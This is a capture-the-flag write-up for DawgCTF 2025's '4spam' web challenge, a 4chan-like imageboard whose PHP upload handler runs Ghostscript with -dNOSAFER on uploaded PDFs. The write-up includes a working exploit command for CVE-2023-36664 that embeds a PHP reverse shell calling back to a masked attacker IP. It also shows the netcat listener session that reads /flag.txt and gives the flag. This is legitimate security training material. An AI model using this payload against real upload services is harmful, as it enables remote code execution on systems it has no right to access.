 ```yaml
---
title: "4spam"
description: "In the wake of last week's events, we've created a replacement (https://4spam.umbccd.net/).\n\nAn old dump of some of the code is available (https://github.com/UMBCCyberDawgs/dawgctf-sp25/blob/main/4spam/4spam.php) under the name 4spam. The flag is at /flag.txt." 
pubDate: 2025-04-29
ctf: "DawgCTF 2025"
category: "web"
author: "sealldev"
section: "CTFs"
image: "images/25-dawgctf/icon.png"
---
```


This challenge is based on the [4chan breach recently](https://www.reuters.com/technology/cybersecurity/notorious-internet-messageboard-4chan-has-been-hacked-posts-claim-2025-04-15/), there was some information about it sent by someone (one of the participants? Observers? Not too sure):
![details.png](images/25-dawgctf/4spam/details.png)

Visiting the web application... yup that's 4chan:
![4spam.png](images/25-dawgctf/4spam/4spam.png)

We are given PHP source code:
```php
<?php

session_start([
    'cookie_httponly' => true,
    'use_strict_mode' => true,
]);

if (!isset($_SESSION['csrf_token'])) {
    $_SESSION['csrf_token'] = bin2hex(random_bytes(32));
}

$uploadsDir = __DIR__ . '/uploads';
$maxSize    = 5 * 1024 * 1024; // 5 MB
$allowedExt = ['jpg', 'jpeg', 'png', 'gif', 'pdf', 'webp'];

function getDb(): PDO
{
    static $db = null;

    if ($db === null) {
        $db = new PDO(
            'sqlite:/tmp/imageboard.db'
        );

        $db->exec("CREATE TABLE IF NOT EXISTS posts (
            id          INTEGER PRIMARY KEY AUTOINCREMENT,
            message     TEXT NOT NULL,
            image       TEXT,
            created_at  DATETIME DEFAULT CURRENT_TIMESTAMP
        )");
    }

    return $db;
}

try {
    $db = getDb();
} catch (PDOException $e) {
    die('Database error: ' . $e->getMessage());
}

if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    $csrf = $_POST['csrf_token'] ?? '';
    if (!hash_equals($_SESSION['csrf_token'], $csrf)) {
        die('Invalid CSRF token.');
    }

    $message  = trim($_POST['message']  ?? '');
    $imageRel = null;

    if ($message === '') {
        header('Location: ' . htmlspecialchars(basename(__FILE__)));
        exit;
    }

    if (!empty($_FILES['image']['name'])) {
        $ext = strtolower(pathinfo($_FILES['image']['name'], PATHINFO_EXTENSION));

        if (!in_array($ext, $allowedExt, true)) {
            die('Unsupported file type.');
        }
        if ($_FILES['image']['size'] > $maxSize) {
            die('File exceeds maximum size of 5 MB.');
        }
        if (!is_dir($uploadsDir) && !mkdir($uploadsDir, 0755, true)) {
            die('Failed to create uploads directory.');
        }

        $filename = uniqid('img_', true) . '.' . $ext;
        $dest     = $uploadsDir . '/' . $filename;

        if (!move_uploaded_file($_FILES['image']['tmp_name'], $dest)) {
            die('Failed to move uploaded file.');
        }
        $imageRel = 'uploads/' . $filename;

        if ($ext == 'pdf') {
            exec("gs -dBATCH -dNOSAFER -dNODISPLAY -dNOPAUSE -sDEVICE=jpeg -dLastPage=1 -r100 -sOutputFile={$imageRel}_proc.jpg $imageRel");
            exec("convert {$imageRel}_proc.jpg -thumbnail 100x100^ -gravity center -extent 100x100 {$imageRel}_thumb.jpg");
        } else {
            exec("convert $imageRel -thumbnail 100x100^ -gravity center -extent 100x100 {$imageRel}_thumb.jpg");
        }
    }

    $stmt = $db->prepare('INSERT INTO posts (message, image) VALUES (?,?)');
    $stmt->execute([$message, $imageRel]);

    $_SESSION['csrf_token'] = bin2hex(random_bytes(32));

    header('Location: ' . htmlspecialchars(basename(__FILE__)));
    exit;
}

$posts = $db->query('SELECT * FROM posts ORDER BY id DESC')->fetchAll(PDO::FETCH_ASSOC);

?>
```

The most interesting snippet is seen here:
```php
if ($ext == 'pdf') {
    exec("gs -dBATCH -dNOSAFER -dNODISPLAY -dNOPAUSE -sDEVICE=jpeg -dLastPage=1 -r100 -sOutputFile={$imageRel}_proc.jpg $imageRel");
    exec("convert {$imageRel}_proc.jpg -thumbnail 100x100^ -gravity center -extent 100x100 {$imageRel}_thumb.jpg");
} else {
    exec("convert $imageRel -thumbnail 100x100^ -gravity center -extent 100x100 {$imageRel}_thumb.jpg");
}
```

We can see that PDFs are parsed with GhostScript, like the 4chan exploit. With some research we can find a [CVE-2023-36664 PoC](https://github.com/jakabakos/CVE-2023-36664-Ghostscript-command-injection) for command injection.

We can then use a PHP webshell from Revshells with the CVE to create a PostScript PoC:
```
$ python3 CVE_2023_36664_exploit.py -p "php -r '\$sock=fsockopen(\"xx.xx.xx.xx\",4444);\$proc=proc_open(\"/bin/bash\", array(0=>\$sock, 1=>\$sock, 2=>\$sock),\$pipes);'" -g -x ps
[+] Generated PS payload file: malicious.ps
```

We can then change this to a PDF:
```
$ mv malicious.ps malicious.pdf
```

Once uploaded, we can receive a netcat connection and get the flag:
```
$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [xx.xx.xx.xx] from (UNKNOWN) [52.87.223.95] 36032
whoami
whoami: cannot find name for user ID 1000
ls
index.php
uploads
view.php
cat /flag.txt
DawgCTF{h4ck3d_by_0pay_expl01t}
```

Flag: `DawgCTF{h4ck3d_by_0pay_expl01t}`